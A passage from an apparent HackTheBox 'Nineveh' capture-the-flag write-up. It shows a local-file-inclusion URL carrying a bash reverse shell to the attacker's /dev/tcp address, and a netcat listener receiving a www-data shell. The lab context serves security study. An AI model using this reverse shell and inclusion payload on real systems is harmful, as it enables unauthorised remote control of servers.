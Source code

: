 ![execute_php_code](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Nineveh/execute_php_code.png?raw=true)

Finally, we can start a netcat listener and then execute a reverse shell code!

```bash
URL: http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../va r/tmp/shiro.php&cmd=bash -c 'exec bash -i %26>/dev/tcp/10.10.14.29/1234 <%261'

- Netcat Listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.43] 57400
bash: cannot set terminal process group (1387): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$
```
